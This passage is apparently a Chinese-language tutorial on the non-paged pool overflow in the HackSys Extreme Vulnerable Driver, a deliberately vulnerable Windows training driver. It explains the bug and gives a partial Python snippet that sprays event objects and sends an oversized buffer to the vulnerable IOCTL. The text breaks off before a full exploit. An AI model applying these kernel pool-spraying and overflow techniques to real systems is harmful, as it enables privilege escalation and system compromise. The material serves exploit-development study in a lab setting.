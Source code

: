 <small>转载请注明出处哦 :  )</small>

## 0x00 前言
本篇的内容为非换页池溢出漏洞分析利用

## 0x01 非换页池溢出漏洞分析
首先打开 BufferOverflowNonPagedPool.c 文件

![alt 1](images/nonPagedpooloverflow/1.jpg)

我们可以很明显地发现池溢出漏洞。函数接受我们的用户 buffer 并直接将用户 buffer 复制到刚分配的非换页池中。

emmmm 那现在我们发现了一个 bug 但是这个漏洞有办法利用吗？它又不像在栈中我们可以直接覆盖 eip 来控制指令流，在非换页池中造成溢出除了蓝屏外(是的，: )若我们修改了不该改的东西，比如说池头，马上就蓝屏了，有兴趣的朋友可以试试，反正玩 windows 经常给整崩，还好有虚拟机)我们有办法控制指令流吗？

答案是肯定的。不过首先我们先补充点知识。

当我们通过 CreateXXX(比如说 CreateEvent, CreateFile 等等)创建一个对象时，系统会自动帮我们在非换页池中申请一块区域来保存这个对象

比如我们通过这么一段小代码来创建 Event 对象试试:

```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *
 
def main():
    kernel32 = windll.kernel32
    ntdll = windll.ntdll
	
    hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)
	 
    if not hevDevice or hevDevice == -1:
        print "*** Couldn't get Device Driver handle."
        sys.exit(0)
 
    buf = "A" * 504
    buf_ad = id(buf) + 20
 
    spray_event1 = []
 
    for i in xrange(20):
        spray_event1.append(kernel32.CreateEventA(None, False, False, None))
 
    kernel32.DeviceIoControl(hevDevice, 0x22200f, buf_ad, len(buf), None, 0, byref(c_ulong()), None)
```